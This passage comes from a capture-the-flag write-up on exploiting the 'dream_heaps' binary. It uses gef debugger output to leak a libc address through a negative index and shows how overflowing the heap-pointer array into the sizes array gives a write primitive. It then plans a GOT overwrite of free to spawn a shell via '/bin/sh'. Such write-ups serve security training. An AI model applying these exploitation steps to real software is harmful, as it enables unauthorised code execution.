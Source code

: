 ```
gef➤  p puts
$5 = {<text variable, no debug info>} 0x7ffff7a7c690 <_IO_puts>
gef➤  search-pattern 0x7ffff7a7c690
[+] Searching '0x7ffff7a7c690' in memory
[+] In '/Hackery/swamp/dream/dream_heaps'(0x602000-0x603000), permission=rw-
  0x602020 - 0x602038  →   "\x90\xc6\xa7\xf7\xff\x7f[...]" 
gef➤  search-pattern 0x602020
[+] Searching '0x602020' in memory
[+] In '/Hackery/swamp/dream/dream_heaps'(0x400000-0x401000), permission=r-x
  0x400538 - 0x400539  →   "`" 
```

Here we can see that the address `0x400538` will work for us. To leak the address we just need to read the dream at offset `-263021`. This is because HEAP_PTRS starts at `0x6020a0` and `0x6020a0 - 0x400538 = 0x201b68` and `0x201b68 / 8 = 263021`. 

Now for the got overwrite, we can use a couple of things to exploit that. Firstly if we make enough dreams, they will overflow into the sizes. This is because there isn't a check for this, and `SIZES` starts at `0x6020e0` and `HEAP_PTRS` starts at `0x6020a0`. The difference between the two is `0x40` bytes, and since pointers are `0x8` bytes it will just be `8` pointers before we start overflowing them. In addition to that since ints are `4` bytes, the two will overlap nicely and end up being written behind the pointers. When we try making a lot of different dreams, we see that we can end up writing a pointer than can be reached by the `edit_dream` function:

```
gef➤  x/30g 0x6020a0
0x6020a0 <HEAP_PTRS>:	0x00000000013ea020	0x00000000013ea040
0x6020b0 <HEAP_PTRS+16>:	0x00000000013ea070	0x00000000013ea0b0
0x6020c0 <HEAP_PTRS+32>:	0x00000000013ea100	0x00000000013ea160
0x6020d0 <HEAP_PTRS+48>:	0x00000000013ea1d0	0x00000000013ea250
0x6020e0 <SIZES>:	0x00000000013ea2e0	0x00000000013ea380
0x6020f0 <SIZES+16>:	0x00000000013ea430	0x00000000013ea4f0
0x602100:	0x00000000013ea5c0	0x00000000013ea6a0
0x602110:	0x00000000013ea790	0x00000011013ea890
0x602120:	0x0000003300000022	0x0000005500000044
0x602130:	0x0000007700000066	0x0000009900000088
0x602140:	0x000000bb000000aa	0x000000dd000000cc
0x602150:	0x00000000013eaac0	0x00000000013eab50
0x602160:	0x00000000013eac00	0x00000000013eacc0
0x602170:	0x00000000013ead90	0x00000000013eae70
0x602180:	0x0000000000000000	0x0000000000000000
``` 

The pointers are addresses like `0x13eaac0`, and the sizes are the integers like `0x99` and `0x88`. At `0x602128` (which would be at index `17`) we can see would be a nice place to write a pointer with the sizes. This is not only because we control it with sizes, but when we edit a dream it will also grab a size from the `SIZES` array that we will need to be at least `0x8`. If we choose index `17`, it will grab the integer from `0x602124` which we also control it with the sizes. So by choosing the offset 17 to edit, by making dreams with certain sizes we can control both the address that is written to and the size.

Also for the function that we will be overwriting the got address of will be `free` at `0x602018`. This is because it won't cause any real issues for us, and to get a shell we will just have to free a dream witht he contents `/bin/sh`.
